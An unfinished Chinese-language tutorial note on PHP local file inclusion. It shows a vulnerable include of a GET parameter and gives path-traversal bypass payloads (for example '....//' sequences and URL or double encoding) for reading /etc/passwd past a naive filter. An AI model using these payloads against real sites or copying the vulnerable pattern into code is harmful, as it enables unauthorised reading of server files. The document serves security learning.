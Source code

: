 
**扩展名**

在这种情况下，如果我们尝试阅读/etc/passwd，那么包含的文件将是 /etc/passwd.php，不存在：

```

对应代码

include($_GET['language'] . ".php");

```

没说怎么办

**二阶攻击**

未完待续...

## LFI基本绕过

  

**非递归路径遍历过滤器**

  

针对 LFI 的最基本的过滤器之一是搜索和替换过滤器，它只是删除 ( 的子字符串../）以避免路径遍历。例如：

```

$language = str_replace('../', '', $_GET['language']);

对策：

?PAGE=....//....//....//....//etc/passwd

..././

....\/

....////

```


**编码**

URL编码

`../`转换为`%2e%2e%2f`

其他的字符可以使用在线工具转换：

为此，我们必须对所有字符（包括点）进行 URL 编码。某些 URL 编码器可能不会对点进行编码，因为它们被视为 URL 方案的一部分

  

正如我们所看到的，我们也能够成功绕过过滤器并使用路径遍历来读取 /etc/passwd。此外，我们还可以使用Burp Decoder对编码后的字符串再次进行编码，得到double encoded字符串，它也可能绕过其他类型的过滤器。

  